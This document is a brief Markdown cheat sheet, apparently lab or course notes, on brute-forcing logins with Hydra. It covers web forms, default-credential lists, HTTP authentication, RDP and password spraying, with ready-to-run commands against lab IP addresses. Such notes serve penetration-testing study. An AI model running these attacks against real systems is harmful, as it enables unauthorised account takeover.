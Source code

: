 ## Bruteforce a website
```
hydra -l <username> -P <password list> <ip> http-post-form "/<login url>:username=^USER^&password=^PASS^:F=incorrect" -V -F `

	# For password spraying, add -u flag. This will tell Hydra to try each password for every user first.
```

- combine creadentials
```bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
-s PORT: identify the port
http-get: method use
```

- Password spraying: use flag -u

---------------
# Brute Forcing Forms
------------------------
```bash
hydra -h | grep "Supported Services" | tr ":" "\n" | tr " " "\n" | column -e
```
- There are two modules that we're interested: 
	- http[s]-{head|get|post}: for basic HTTP authentication 
	- http[s]-post-form: used for login forms

--------------
# RDP
-------------------
- Bruteforce RDP
```bash
hydra -L user.list -P password.list rdp://10.129.42.197
```
